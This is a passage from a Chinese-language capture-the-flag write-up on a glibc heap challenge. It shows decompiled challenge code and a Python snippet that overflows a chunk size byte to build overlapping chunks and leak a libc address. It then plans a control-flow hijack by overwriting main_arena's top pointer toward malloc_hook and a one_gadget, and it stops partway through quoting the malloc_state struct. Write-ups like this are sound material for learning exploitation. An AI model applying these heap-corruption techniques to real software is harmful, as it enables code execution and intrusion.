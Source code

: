 ```c
      }
    }
  }
  else
  {
    LODWORD(oldSizePlus1) = puts("Invalid Index");
  }
  return oldSizePlus1;
}
```

#### delete

free掉对应chunk，并将数组上相应位置设置为NULL，不存在UAF。

#### view

根据inuse，show出chunk的内容。

### 利用

本题应该是构造overlapping，以实现信息泄漏和fastbin attack。

#### leak libc

溢出一个小chunk，改大下一个chunk的size位，然后free掉被修改的chunk，这时chunk将会被放到unsorted bin中，之后再malloc较小的size，即可从被分离后的last remainder处leak处main_arena地址

```python
# leak libc
allocate(0x18)
allocate(0x40)
allocate(0x40)
allocate(0x10)
payload = 0x18 * "a" + "\xa1"
update(0, len(payload), payload)
delete(1)
allocate(0x40)
view(2)

addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc.address = addr - 0x3c4b78
```

#### 劫持控制流

按常规思路，我们只要能将chunk申请到malloc_hook之前的那个位置（即保证size为0x7f），然后修改malloc_hook为one_gadget即可，但是本题对申请的chunk的size进行限制，最大只能为0x60，所以不可能通过直接的fastbin attack修改fd从而申请到那个位置。这里，我们采用改main_arena中的top指针的方法，令下次分配从top指针指向的地址开始。

main_arena的结构如下：

```c
struct malloc_state {
    /* Serialize access.  */
    __libc_lock_define(, mutex);

    /* Flags (formerly in max_fast).  */
    int flags;

    /* Fastbins */
    mfastbinptr fastbinsY[ NFASTBINS ];

    /* Base of the topmost chunk -- not otherwise kept in a bin */
    mchunkptr top; // top chunk的地址

    /* The remainder from the most recent split of a small request */
```